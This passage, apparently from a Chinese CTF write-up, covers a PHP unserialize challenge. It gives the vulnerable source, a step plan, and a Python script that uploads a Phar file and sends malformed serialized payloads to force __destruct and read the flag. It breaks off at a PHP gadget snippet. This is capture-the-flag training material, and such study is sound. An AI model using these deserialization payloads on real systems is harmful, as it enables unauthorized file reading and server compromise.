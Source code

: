 	  }
	  
	  class banana {
	    public function __get($name){
	        return $this->$name;
	    }
	  }
	  // flag in /
	  if(strlen($_POST[1]) < 55) {
	    $a = unserialize($_POST[1]);
	  }
	  else{
	    echo "str too long";
	  }
	  
	  throw new Error("start");
	  ?> 
	  ```
- # WP
	- 总体思路：
	  
	  1. 通过Class D写入并加载Phar文件
	  2. 通过Phar文件反序列化恶意对象
	  3. 通过恶意对象的实例化
	  4. 使用DirectoryIterator读取文件夹，并使用SplFileObject读取flag
-
	- ## 通过Class D写入Phar文件
		- ```python
		  url = "http://f158c838-3269-4309-a278-e68c93230025.node4.buuoj.cn:81/"
		- one = 'a:2:{i:0;O:1:"D":1:{s:5:"start";s:1:"w";}i:1;-i:1;}'
		- zero = fileread.readbytesfrom("exp1.tar.gz")
		- r = base_post(url, data = {
		    "0": zero,
		    "1": one
		  })
		- re_obj = re.search("/tmp/[0-9a-f]+?\.jpg", r.text)
		  if not re_obj:
		    print(r.text)
		    raise ValueError("Not Fount")
		- file_path = re_obj.group(0)
		- print(file_path)
		- one = 'a:2:{i:0;O:1:"D":1:{s:5:"start";s:1:"r";}i:1;-i:1;}'
		- zero = "phar://{}/test.txt".format(file_path)
		- r = base_post(url, data = {
		    "0": zero,
		    "1": one
		  })
		- re_obj = re.search("the others([\s\S]+?)<br />", r.text)
		- if re_obj:
		    print(re_obj.group(1))
		  else:
		    print(r.text)
		- ```
		- 题目末尾有throw阻止`__destruct`的执行，可以通过损坏的数组`a:2:{i:0;O:1:"D":1:{s:5:"start";s:1:"r";}i:1;-i:1;}`强制执行`__destruct`
		- > 也就是用其中的`-i:1;`强制执行前面对象的`__destruct`
	- ## 通过Phar文件反序列化恶意类
		- ```php
		  <?php
		  // $tree1是我们的恶意类
		  $o = [$tree1, 5];
		  